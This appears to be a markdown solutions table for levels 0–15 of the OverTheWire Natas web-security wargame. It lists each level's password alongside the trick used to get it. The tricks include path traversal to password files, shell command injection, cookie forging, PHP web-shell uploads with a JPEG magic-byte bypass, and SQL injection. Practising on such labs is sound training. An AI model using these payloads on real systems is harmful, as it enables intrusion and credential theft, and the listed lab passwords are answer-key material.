 # [Over The Wire](https://overthewire.org/wargames/)
## [Natas](https://overthewire.org/wargames/natas/)

| Username  |  Password | How to get the password  |
| ------------ | ------------ | ------------ |
|natas0|natas0|`From the website`|
|natas1|gtVrDuiDfck831PqWsLEZy5gyDz1clto|`view page source`|
|natas2|ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi|`view page source`|
|natas3|sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14|`/files/users.txt`|
|natas4|Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ|`/s3cr3t/users.txt`|
|natas5|iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq|`curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ - -referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/`|
|natas6|aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1|`edit cookie value from 0 to 1 (use editthiscookie ext)`|
|natas7|7z3hEENjQtflzgnT29q7wAvMNfZdh0i9|`find the secret in /index-source.html`|
|natas8|DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe|`index.php?page=/etc/natas_webpass/natas8`|
|natas9|W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl|`get encoded secret from source code; base64 -d <<< reverse(hex2bin(secret)) > webpage feild and the password pops out`|
|natas10|nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu|`; cat /etc/natas_webpass/natas10`| 
|natas11|U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK|`^ /etc/natas_webpass/natas11`|
|natas12|EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3|`python3 -c \'import base64;key =[c ^ m for c, m in zip(base64.decodebytes(b"ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="),b\'{"showpassword":"no","bgcolor":"#ffffff"}\')];key.append(119);print(base64.encodebytes("".join(chr(c ^ m) for c, m in zip(b\'{"showpassword":"yes","bgcolor":"#ffffff"}\',key)).encode("tf-8")))\'`|
|natas13|jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY|`inspect page; edit uploaded file's extention from jpg to php; upload this code in php file and execute it <?php echo passthru("cat /etc/natas_webpass/natas13"); OR echo exec("cat /etc/natas_webpass/natas13"); OR echo system("cat /etc/natas_webpass/natas13");?>`|
|natas14|Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1|`inspect page; edit uploaded file's extention from jpg to php; add jpg magic bit using hexeditor to code file and upload this code in jpg file and execute it FF D8 FF DB < ?php echo passthru("cat /etc/natas_webpass/natas13");`|
|natas15|AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J|`insert " OR username="natas15";# into username feild`|
|natas16|   |` `|
